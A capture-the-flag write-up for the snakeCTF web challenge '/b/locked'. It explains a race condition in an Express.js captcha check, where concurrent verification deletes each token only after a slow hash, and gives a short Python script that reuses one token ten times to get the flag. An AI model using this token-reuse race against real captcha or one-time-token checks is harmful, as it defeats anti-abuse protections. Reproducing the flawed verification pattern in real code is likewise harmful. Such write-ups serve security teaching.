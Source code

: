 # [Web] /b/locked
**Final Solves**: 67

![CTF Challenge](../imgs/blocked.jpg)

---

## Solution

When launching the challenge, we're greeted by an ExpressJS web server that asks us to solve 10 hard captchas in under 10 seconds.

![CTF Challenge](../imgs/blocked_index.jpg)

Since this is a white-box web security challenge, the natural first step was to inspect the source code. The most interesting part is the `/protected` route. This **verifies all submitted captchas** and ensures that they were solved in the last 10 seconds before returning the flag. The route validates the 10 captcha tokens using a **Javascript Promise**, so that all checks run concurrently. 


```javascript
const verificationPromises = solvedCaptchas.map(token => {
    return new Promise((resolve, reject) => {
        db.get("SELECT hash, salt, solvedAt FROM validHashes WHERE id = ?", [token], async (err, storedHashData) => {
            if (err) {
                console.error("Error retrieving hash data:", err);
                return resolve();
            }

               if (!storedHashData) {
                console.error("Token not found or already used:", token);
                return resolve();
                }

            const { hash, salt, solvedAt } = storedHashData;

            try {
                const recomputedHash = await new Promise((resolveHash, rejectHash) => {
                    crypto.pbkdf2(token, salt, 100000, 64, "sha512", (err, derivedKey) => {
                        if (err) rejectHash(err);
                        resolveHash(derivedKey.toString('hex'));
                    });
                });

                if (recomputedHash === hash) {
                    solvedTimes.push(solvedAt);
                    db.run("DELETE FROM validHashes WHERE id = ?", [token], (err) => {
                        if (err) {
                            console.error("Error deleting hash:", err);
                        }
                        resolve();
                    });
                } else {
                    console.error("Hash mismatch for token:", token);
                    resolve();
                }
            } catch (e) {
                console.error("Error verifying token:", e);
                resolve();
            }
        });
    });
});

await Promise.all(verificationPromises);
```


This implementation introduces a subtle **race condition**: Each token is first checked for validity, then a hash is computed (which takes some time), and finally, the token is marked invalid to prevent reuse. <br/>
Because the checks happen at the same time, **the invalidation step doesn't complete before the other checks start**. This means we can **reuse the same token** 10 times, tricking the server into thinking 10 different captchas were solved.

***My script:***
```python
import requests

BASE_URL = "https://520930d91fbe773eaae88164df93112b.blocked.challs.snakectf.org"
TOKEN = input('token ')[6:-6]

cookies = {
    "solvedCaptchas": ",".join([TOKEN] * 10) # Crafting our 🍪
}

resp = requests.get(f"{BASE_URL}/protected", cookies=cookies) # Retrieving our 🚩

print("Response:")
print(resp.text)
```

***Final flag:***
`snakeCTF{4n0n_byp4553d_th3_f1lt3r_7470985510630620}`

During the game, we also found out it could be solved in another **unintended** way. As the system only noted the time when the captcha's response was sent, a player could just solve 10 captchas manually, write down the Captcha's ID and solution, and submit everything at the same time.
